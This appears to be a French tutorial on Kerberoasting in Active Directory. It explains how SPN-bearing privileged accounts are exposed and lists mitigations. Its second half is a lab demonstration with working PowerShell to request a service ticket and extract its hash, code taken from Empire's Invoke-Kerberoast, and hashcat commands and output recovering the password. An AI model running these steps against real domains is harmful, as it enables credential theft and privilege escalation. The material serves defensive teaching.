 ```yaml
---
title: "Le Kerberoasting avec PowerShell"
description: ""
listed: true
---
```


## Contexte et explication

Après un audit Ping Castle, vous êtes peut-être tombé sur la vulnérabilité "P-Kerberoasting" dans votre domaine (attaque Kerberoasting). Cette faille de sécurité est classée au niveau 1 de criticité (le plus élevé) par l'ANSSI et représente un **gros risque** pour votre Active Directory.

La source de cette vulnérabilité est simple : un compte avec un haut niveau de privilège dans votre annuaire (*Admin du domaine* par exemple) possède une valeur inscrite dans son attribut `servicePrincipalName` (SPN). Cette valeur n'a pas besoin d'être valide ou de pointer vers un vrai serveur/service : sa simple présence suffit.

### Fonctionnement du ServicePrincipalName

L'attribut `servicePrincipalName` permet plusieurs choses dans Active Directory :

- **Identification d'un service :** Il permet à Kerberos de savoir quel service un utilisateur veut contacter. Par exemple, `HTTPS/server.contoso.com:443` identifie un serveur web, ou `MSSQLSvc/server.contoso.com` pour une base de données.
- **Authentification sécurisée :** Kerberos utilise le SPN pour générer un ticket d'accès au service demandé (TGS), chiffré avec le mot de passe de l'utilisateur qui porte le `servicePrincipalName`.

### Déroulement d'une attaque

L'attaque Kerberoasting est la contraction de "Kerberos" (le protocole d'authentification qui fourni le TGS) et de "roast(ing)" qui fait référence au fait de faire chauffer (ou rôtir plus exactement) avec du brute-force le ticket que l'on a réussi à obtenir.

Le principal problème réside dans le fait que **n'importe quel utilisateur du domaine** peut demander un ticket d'accès pour le compte qui porte le SPN (aucun privilège n'est nécessaire). Si on arrive à récupérer au moins un ticket TGS, alors on peut essayer de le *"brute-forcer"* hors-ligne pour obtenir le mot de passe du compte cible.

Puisque le ticket est chiffré de manière irréversible avec le mot de passe, il n'est pas possible de le déchiffrer directement. L'attaquant va plutôt essayer de recréer le même hash de ticket à partir d'un mot de passe qu'il connait (soit en utilisant un dictionnaire, soit en générant aléatoirement un mot de passe). Si le ticket généré par l'attaquant est identique à celui qui a été capturé : le mot de passe a été trouvé.

L'avantage de cette technique est qu'elle est relativement discrète (à moins que vous ailliez des solutions de surveillance comme [Semperis Directory Services Protector](https://www.semperis.com/fr/active-directory-security/) par exemple) et qu'elle permet une escalade directe du Tier 2 vers le Tier 0 (si le mot de passe parvient à être cassé).

### Comment résoudre cette vulnérabilité ?

La seule méthode pour résoudre complètement cette vulnérabilité est de supprimer **toutes** les valeurs présentes dans le SPN.

Bien évidemment, il n'est pas toujours possible de pouvoir faire ce genre d'action. Dans ce cas, voici les actions que vous pouvez mener (sans avoir à supprimer les SPN) :

1. Réduire au maximum les permissions du compte qui porte le SPN pour éviter que sa compromission ne soit un danger immédiat pour votre Active Directory
2. Utiliser des mots de passe très long (plus de 25 caractères) et complexes pour allonger le temps nécessaire pour pouvoir le brute-forcer
3. N'autoriser que le chiffrement AES 256 pour les tickets Kerberos du compte, toujours pour ralentir l'attaque brute-force (attribut `msDS-SupportedEncryptionTypes`)
4. Renouveler le mot de passe régulièrement pour rendre caduque un ticket TGS qui aurait été volé

## Exemple d'attaque

Dans la suite de cet article nous utiliserons des commandes PowerShell du module Active Directory et le logiciel [hashcat](https://hashcat.net/hashcat/). Les deux sont facilement disponibles sous Windows. L'idée de cet article n'est pas de donner un guide détaillé sur cette attaque en environnement réel, mais plutôt de pouvoir la reproduire dans un lab pour démontrer son fonctionnement. Les commandes indiquées ne sont pas les plus performantes ou les plus discrètes.

### Création du compte

La première étape est de créer le compte Active Directory avec un SPN est un mot de passe suffisamment faible pour pouvoir être cassé avec une attaque par dictionnaire. Ici nous allons créer le compte de John Smith, avec le mot de passe `ZombieKiller2008` qui devrait satisfaire la politique de mot de passe par défaut (16 caractères de long et de la complexité).

```powershell
$splat = @{
    Name              = 'John Smith'
    Enabled           = $true
    SamAccountName    = 'smithjo'
    UserPrincipalName =  'smithjo@contoso.com'
    AccountPassword   = ('ZombieKiller2008' | ConvertTo-SecureString -AsPlainText -Force)
    OtherAttributes   = @{
        ServicePrincipalName = 'MSSQLSvc/server.contoso.com'
    }
}
New-ADUser @splat
```

On va ensuite collecter des informations liées à l'environnement Active Directory, pour permettre à hashcat de créer un ticket et comparer le résultat avec l'original. Nous avons besoin des informations suivantes :

- Le nom DNS du domaine (contoso.com par exemple)
- Le SamAccountName de l'utilisateur qui porte le SPN (smithjo)
- La valeur du SPN que l'on va utiliser

Récupération d'un SPN (n'importe lequel) :

```powershell
$domain = (Get-ADDomain).DNSRoot
$user = Get-ADUser smithjo -Properties servicePrincipalName
$sam = $user.SamAccountName
$spn = $user.servicePrincipalName[-1]
```



Création d'un ticket Kerberos :

```powershell
$ticket = [System.IdentityModel.Tokens.KerberosRequestorSecurityToken]::New($spn)
```

Récupération du hash du ticket :

Source du code : [Empire/data/module_source/credentials/Invoke-Kerberoast.ps1 at master · EmpireProject/Empire · GitHub](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1#L660)

```powershell
$ticketByteStream = $ticket.GetRequest()
$TicketHexStream = [System.BitConverter]::ToString($TicketByteStream) -replace '-'
$TicketHexStream -match 'a382....3082....A0030201(?<EtypeLen>..)A1.{1,4}.......A282(?<CipherTextLen>....)........(?<DataToEnd>.+)'
$etype = [Convert]::ToByte($Matches.EtypeLen, 16)
$cipherTextLen = [Convert]::ToUInt32($Matches.CipherTextLen, 16)-4
$cipherText = $Matches.DataToEnd.Substring(0,$cipherTextLen*2)
$hash = "$($cipherText.Substring(0,32))`$$($cipherText.Substring(32))"
```

Conversion du hash vers le format hashcat :

```powershell
$hashcatFormat = '$krb5tgs$' + $etype + '$*' + $sam + '$' + $domain + '$' + $spn + '*$' + $hash
$hashcatFormat | Set-Clipboard
```

On peut alors essayer de casser le hash avec [hashcat](https://hashcat.net/hashcat/) :

```plaintext
.\hashcat.exe -a 0 .\hash.txt .\kerberoast_pws.txt
```

Le dictionnaire utilisé est le suivant : [edermi Kerberoast PW list (XZ format) · GitHub](https://gist.github.com/The-Viper-One/a1ee60d8b3607807cc387d794e809f0b)

Et au bout de quelques dizaines de secondes de traitement, on obtient le mot de passe en clair : `ZombieKiller2008`

```plaintext
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 ) - Platform #1 [Intel(R) Corporation]
=============================================================
* Device #1: Intel(R) Iris(R) Xe Graphics, 3552/7176 MB (1794 MB allocatable), 96MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 210 MB

Dictionary cache hit:
* Filename..: .\kerberoast_pws.txt
* Passwords.: 35638385
* Bytes.....: 404901152
* Keyspace..: 35638385

$krb5tgs$23$*smithjo$contoso.com$MSSQLSvc/server.contoso.com*$abf9befd[...]f3ea6085:ZombieKiller2008

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*smithjo$contoso.com$MSSQLSvc/server.s...ea6085
Time.Started.....: Wed Jun 25 11:04:25 2025 (47 secs)
Time.Estimated...: Wed Jun 25 11:05:12 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (.\kerberoast_pws.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   765.6 kH/s (7.39ms) @ Accel:16 Loops:1 Thr:8 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 35561472/35638385 (99.78%)
Rejected.........: 0/35561472 (0.00%)
Restore.Point....: 35549184/35638385 (99.75%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: (zoeyis3) -> Zoogbroeders?

Started: Wed Jun 25 11:04:25 2025
Stopped: Wed Jun 25 11:05:13 2025
```
